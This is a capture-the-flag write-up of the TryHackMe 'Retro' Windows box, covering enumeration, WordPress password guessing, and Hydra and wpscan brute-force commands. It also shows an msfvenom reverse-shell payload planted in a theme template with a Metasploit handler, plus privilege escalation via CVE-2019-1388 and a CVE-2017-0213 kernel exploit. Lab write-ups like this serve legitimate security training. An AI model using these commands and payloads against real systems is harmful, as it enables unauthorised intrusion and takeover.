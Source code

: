 **Note: I had significant issues working through this box, as the connection would frequently be dropped. I'm not sure if this is because I was using Kali through VMware. I ended up switching to the built-in Kali box on TryHackMe, which seemed to help.**

# Enumeration

A quick nmap scan reveals that ports 80 and 3389 are open.
 
![89a228305530310cf47a347e88c772d6.png](/Retro/_resources/89a228305530310cf47a347e88c772d6-1.png)
 
Investigating the web server reveals nothing immediate. We search for directories using FFUF.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.18.117/FUZZ -c -t 100 -v
```

A brief explanation of the flags/switches used:
- `-w` specifies the path to the wordlist.
- `-u` specifics the URL, where `FUZZ` indicates the place we should fuzz.
- `-t` specifies the number of threads to use. The default is 40.
- `-v` gives verbose output.
- `-c` makes the output colourful.

Eventually, we find the `/retro` directory. Navigating to this page leads us to a retro gaming blog. We immediately find a username and a link to a login form.
 
![255ae2347532f8812a96a306e85abd34.png](/Retro/_resources/255ae2347532f8812a96a306e85abd34-1.png)

![4fabd57edbd6ee6aa7dc61e507b6ad34.png](/Retro/_resources/4fabd57edbd6ee6aa7dc61e507b6ad34-1.png)

![5c85610d77a5eb7ee447edf631030b53.png](/Retro/_resources/5c85610d77a5eb7ee447edf631030b53-1.png)
 
We also find a blog post revealing some potentially useful information.
 
![93d50d680dfdfbd493a3f64db5ffc33e.png](/Retro/_resources/93d50d680dfdfbd493a3f64db5ffc33e-1.png)
 
At bit of Googling tells us that the name of the avatar that Wade keeps mistyping is referring to is `parzival`.  This turns out to be the password, we we use to log in to Wade's WordPress account.
 
![9907cd4592502321e25444748f8c1952.png](/Retro/_resources/9907cd4592502321e25444748f8c1952-1.png)
 
If we didn't have access to the information given away by Wade, we would have to use Hydra to brute force the login. We already have a possible username, so let's submit the login request to Burp to capture the body of the POST request. Our Hydra command looks like:

```bash
hydra -l Wade -P /usr/share/wordlists/rockyou.txt 10.10.18.117 http-post-form "/retro/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -v
```

(At this point, it seems that my machine died. Terminating and trying a new one.)

Hydra doesn't seem to be working here, as the connection seems to time out. Let's try wpscan.

`wpscan --url http://10.10.127.19/retro/wp-login.php -U Wade -P /usr/share/wordlists/rockyou.txt
`

This also doesn't seem to work. Luckily, we already have the password!

<br>

# Exploitation

Now that we have access to Wade's Wordpress account, let's try and use the WordPress theme editor to edit the 404 Template and upload a reverse shell.
 
![5683c9ad5042de27f889314759a5ad02.png](/Retro/_resources/5683c9ad5042de27f889314759a5ad02-1.png)
 
We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. Let's use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to any invalid url on the webpage. The reverse shell tries to launch, but we encounter an error.
 
![d93a8e9449266c751dabafddae677f8d.png](/Retro/_resources/d93a8e9449266c751dabafddae677f8d-1.png)

![6ae90c35a0451cc58796d62cda3930bc.png](/Retro/_resources/6ae90c35a0451cc58796d62cda3930bc-1.png)
 
Some Googling tells us that we're not the first to encounter this error. Thankfully, the explanation is simple.
 
![99aeceb1a7c252ee0fa0338c6361e335.png](/Retro/_resources/99aeceb1a7c252ee0fa0338c6361e335-1.png)
 
We could also try using a [php reverse shell for Windows machines](https://github.com/Dhayalanb/windows-php-reverse-shell), but this didn't work for me either.

Let's instead try using a php reverse shell payload generated by msfvenom.
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw
```

Now copy and paste the raw output into the 404 template and update the file.
 
![7ca759846f47cf684397cfa3868ea91d.png](/Retro/_resources/7ca759846f47cf684397cfa3868ea91d-1.png)
 
Before proceeding, we set up a handler with Metasploit as follows:
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.6.30.43
LHOST => 10.6.30.43
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > run
```

Now send the reverse shell by triggering the 404. Meterpreter catches the reverse shell, and we have an initial foothold.
 
![011e8b21d3b0f57071380f0fcbb53c55.png](/Retro/_resources/011e8b21d3b0f57071380f0fcbb53c55-1.png)
 
At this point, the Meterpreter shell did not do much for me; basic commands like `cd` would often fail. This held true even after switching to the Kali instance on THM.

Luckily, there is another method for gaining initial access into the system. Recall that port 3389 was also open, so we may be albe to RDP into the Windows machine. Using `xfreerdp /u:wade /v:10.10.100.184` and inputting Wade's password get's us in. The `user.txt` flag is on the desktop.
 
![b5bd1fb1040d70714f3896ff0e8fdb32.png](/Retro/_resources/b5bd1fb1040d70714f3896ff0e8fdb32-1.png)
 
<br>

# Post-exploitation

(Note: I had a lot of issues reliably connecting to the Windows machine; this made RDPing a lot more painful that it should have been, and I had to reset the box a few times. I'm not sure if this is a me-problem or a THM-problem.)

Now that we have initial access, let's see if we can gain Administrator access. Looking around a bit, we see that the page to [CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) has been bookmarked in Chrome. This is a Windows Certificate Dialog Elevation of Privilege Vulnerability. Information on how to exploit this vulnerability can be found [here](https://justinsaechao23.medium.com/cve-2019-1388-windows-certificate-dialog-elevation-of-privilege-4d247df5b4d7). A brief summary is also given [here](https://github.com/nobodyatall648/CVE-2019-1388).

To start, we download an executable from [Packet Storm](https://packetstormsecurity.com/files/14437/hhupd.exe.html). Note that this file is also found in the Windows machine's recycling bin.
 
![0837d857d7a2c05ebf8c90db2ffceb19.png](/Retro/_resources/0837d857d7a2c05ebf8c90db2ffceb19-1.png)
 
We need to transfer this file to the target system. Let's set up a web server on our machine with `python -m http.server`.
 
![97fb80da01626337a3300a2937f90c8f.png](/Retro/_resources/97fb80da01626337a3300a2937f90c8f-1.png)

Now run the .exe file as Administrator.

![f956e29aca544a77575e2620eaadcaad.png](/Retro/_resources/f956e29aca544a77575e2620eaadcaad-1.png)

![374876b3445d9626281cee1dbf695611.png](/Retro/_resources/374876b3445d9626281cee1dbf695611-1.png)
 
Here is where I ran into a problem -- the "Issued By" URL needs a default app or browser in order to open. Even after setting a default browser and running through the above steps again, I am not given an option to open the URL. As you can see, the "OK" button remains greyed out:
 
![f24307e975a46e04b5cdc04866457dba.png](/Retro/_resources/f24307e975a46e04b5cdc04866457dba-1.png)
 
At this point, I knew what I had to do but there doesn't seem to be a way to proceed. This issue has been mentioned by many users on the TryHackMe Discord, but I wasn't able to find a solution. The intended path is the following: After opening the "Issued By" URL, we wait for the site to fully load and open a prompt to save the webpage using "Save As". Within this file explorer, we type `C:\WINDOWS\system32\cmd.exe` into the file name bar. This will open a command prompt with root privileges, which we can then use to find the last flag.

Since we're stuck (again), we'll try one last method to get root. Specifically, we're going to use a kernel exploit. Opening the command prompt and using `systeminfo` gives us some information about the Windows build and OS.
 
![66a6c5d935e4ede2a845203c46db7104.png](/Retro/_resources/66a6c5d935e4ede2a845203c46db7104-1.png)
 
Some [research](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---kernel-exploitation) reveals that our build of Windows is affected by [CVE-2017-0213](https://nvd.nist.gov/vuln/detail/CVE-2017-0213), a vulnerability which will allow us to run a kernel exploit and elevate our privileges. A bit of Googling reveals an [exploit](https://github.com/eonrickity/CVE-2017-0213) that we can use. We can confirm that our Windows build is on the list of affected products.
 
![95c14046e1fc85b4f4e2964bbc4711d0.png](/Retro/_resources/95c14046e1fc85b4f4e2964bbc4711d0-1.png)
 
We download the x64 executable to our local machine, host a web server, and download the file on the target. Executing the file gives us a cmd prompt with root access.
 
![9aaeee6dfb96e542ac51e35f643d9bae.png](/Retro/_resources/9aaeee6dfb96e542ac51e35f643d9bae-1.png)
 
Navigating to the Administrator's desktop, we finally find the root flag.
 
![bde4be03ccfeda0354de697ed8934d6c.png](/Retro/_resources/bde4be03ccfeda0354de697ed8934d6c-1.png)
